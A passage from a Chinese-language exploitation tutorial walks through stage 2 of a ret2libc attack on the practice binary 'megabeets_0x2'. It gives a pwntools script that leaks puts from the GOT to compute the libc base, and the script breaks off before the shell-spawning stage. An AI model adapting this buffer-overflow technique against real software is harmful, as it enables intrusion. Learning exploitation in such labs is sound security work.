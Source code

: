 ## 获取 shell

漏洞利用的第二阶段很直接。我们继续使用 140 个字符，然后调用`system`并将`/bin/sh`作为参数，最后`exit`。

```
+---------------------+
|       Stage 2       |
+---------------------+
| padding (140 bytes) |
| system@libc         |
| exit@libc           |
| /bin/sh address     |
+---------------------+
```

还记得上一次我们返回到了入口点吗？这意味着`scanf`又在等待我们的输入。现在我们所做的就是把这些调用串联起来传给程序。

这是我们最后的脚本。像我之前所说的，你只需要替换符合你的*libc*的偏移。

```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00062710
offset_system = 0x0003c060
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768

# context.log_level = "debug"

def main():

    # open process
    p = process("./megabeets_0x2")

    # Stage 1

    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()

    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2

```